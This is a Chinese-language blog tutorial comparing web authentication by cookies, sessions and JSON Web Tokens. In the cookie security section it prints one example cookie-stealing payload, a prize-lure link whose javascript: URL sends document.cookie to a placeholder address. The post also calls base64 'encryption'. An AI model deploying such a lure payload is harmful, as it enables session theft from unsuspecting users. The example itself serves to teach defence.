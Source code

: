 ```yaml
---
title: '身份驗證 - 猜猜我是誰'
description: '關於常見的Web身份驗證機制'
date: '2023-10-25'
category: 'Web'
tags:
  - Web
---
```

# 網頁的身份驗證機制

## 簡介
- HTTP是一個無狀態協議（stateless），不會記住使用者是誰
- 而是把每一次收到的請求都視為獨立的行為
- 當需要記住使用者的狀態時，就需要某種機制來辨識用戶



## 快速比較

|  | Cookie | Session | JWT |
| --- | --- | --- | --- |
| 儲存位置 | 用戶端(瀏覽器) | 伺服器 | 用戶端(local storage or cookie) |
| 安全性 | 相對較低，可以被使用者修改或刪除，可使用Secure和HttpOnly屬性增加安全性 | 相對較高，使用者無法修改或刪除 | 較安全，使用加密算法保護數據 |
| 過期時間 | 通常會設定一段時間後就過期 | 通常會設定一段時間後就過期 | 可以設定過期時間或使用refresh token延長時效性 |
| 資料傳送方式 | 在http request裡的header | 在http request裡的Header，傳送session id回伺服器 | 在http request裡的Header或url(不安全) |
| 使用場景 | 偏向於紀錄簡單的資訊，如用戶偏好、購物車資訊 | 適合存放較多的用戶資訊，如用戶ID、權限等 | 適合在不同的伺服器之間共享身份驗證資訊 |

## cookie

### 是什麼

- 是伺服器傳送給瀏覽器，並在用戶端下次訪問同一網站時，一同傳回的一小段文字資訊

### 特性

- 保存在用戶端
- 例如儲存使用者的偏好設定、購物車資料等
- 通常不會儲存隱私相關的機密資訊
- 有大小數量限制，單個Cookie最大4K，一個網域下最多20個

![cookie](https://harttle.land/assets/img/blog/cookie.png)

### 可自訂到期時間

**Session Cookie**

- 瀏覽器關閉即清除

**Persistent Cookie**

- 可以設定存在瀏覽器一段時間（明確指定 Cookie 的 Expires 時間）

### 安全性

- 在網站上動態渲染任意HTML是很危險的，容易導致XSS攻擊
- 可以加上http only限制只有http協議可以讀取

範例：偷走你的cookie (儲存的帳密等等機密資料)

```html
<a href="javascript:location.href='url'+ document.cookie">恭喜中獎，點我前往領獎</a>
```

## session

### 是什麼

- 在伺服器端儲存用戶資訊的一種方案
- 需要借助cookie，儲存憑證(session ID)

### 特性

- 將使用者相關資訊儲存在伺服器，避免被任意修改
- 在使用者完成身分認證並輸入完所需訊息之後，給予一組特定ID，存入Cookie中傳回用戶端
- 下一次用戶端發出請求時，便可以利用該ID去辨識是否為同一使用者
- 需要在伺服器端儲存相關的 session 資訊，包括使用者身份、過期時間等等，因此需要一定的伺服器資源
- 每次發出請求時，需要頻繁在伺服器端比對session ID和使用者資料
- 通常會把重要隱密資料儲存在session，比較次要的資料會放在cookie
- 多台Server要使用Session的話，會有共享Session的問題產生，導致效能變差

### 驗證流程 

1. 當使用者第一次訪問網站時，伺服器會建立一個唯一的 Session ID，並將其儲存到伺服器端的記憶體或資料庫中
2. 伺服器會將此 Session ID 回傳給瀏覽器，通常是透過 Cookie 的方式儲存
3. 當使用者進一步訪問網站時，瀏覽器會將此 Session ID 傳回給伺服器
4. 伺服器會從記憶體或資料庫中尋找此 Session ID 對應的使用者狀態，如果找不到就視為未經驗證的訪問
5. 如果伺服器找到了對應的使用者狀態，就代表此訪問是合法的，並根據使用者狀態進行相應的操作，比如回傳網頁內容或者進行其他的處理

![session](https://www.freecodecamp.org/news/content/images/2021/02/fireship-cookies.png)

## JWT (Json Web Token)

### 是什麼

- token-based 機制的其中一種實作，以JSON物件為主體
- 通常用於驗證使用者的身份(Authorization)
- 每次發出需要權限的請求時要帶上給伺服器驗證

### 組成

- header：類型、算法，使用base64加密

```json
{
	"type": "JWT",
	"alg": "HS256"
}
```

- payload：使用者相關的資訊

```json
{
	"name": "Jack",
	"grade": "3rd",
	"identity": "student"
}
```

- signature：base64編譯後的 Header、Payload 與密鑰(secret key)透過雜湊演算法所產生

### 特性

- 保存在用戶端(瀏覽器)
- 一般不會把機密資訊(例如密碼)放在payload當中
- 回傳至伺服器只檢查簽名是否正確，不需儲存用戶資料，可減輕伺服器的負擔
- 不用在Server的資料庫存放Session，特別適合多台Server的情境下，使得擴展性容易

### 驗證流程

1. 客戶端向伺服器端發送請求，並在request header中加入JWT Token
2. 伺服器端接收到請求後，從request header中讀取JWT Token
3. 伺服器端對JWT Token進行驗證，包括驗證簽名是否正確、是否過期、是否被篡改等
4. 驗證成功後，伺服器端可以透過JWT Token中的內容，確認使用者的身份，並進行相應的處理
5. 驗證失敗則拒絕請求，或者返回錯誤訊息

![token](https://www.vaadata.com/blog/wp-content/uploads/2016/12/JWT_tokens_EN.png)

## 參考資料

- [Cookie 和 Session 究竟是什麼？有什麼差別？](https://tw.alphacamp.co/blog/cookie-session-difference)
- [自問自答：Session是什麼？與Cookie有什麼差異？](https://chuneck.com/what-is-session/)
- [JWT(JSON Web Token) — 原理介紹](https://medium.com/%E4%BC%81%E9%B5%9D%E4%B9%9F%E6%87%82%E7%A8%8B%E5%BC%8F%E8%A8%AD%E8%A8%88/jwt-json-web-token-%E5%8E%9F%E7%90%86%E4%BB%8B%E7%B4%B9-74abfafad7ba)
- [note JWT](https://pjchender.dev/webdev/note-jwt/)
- [2020 iT邦鐵人賽-成為看起來很強的後端](https://www.youtube.com/playlist?list=PLS5AiLcCHgNxd341NwuY9EOpVvY5Z8VOs)
- [Session、Cookie、Token](https://juejin.cn/post/7073363137281392647)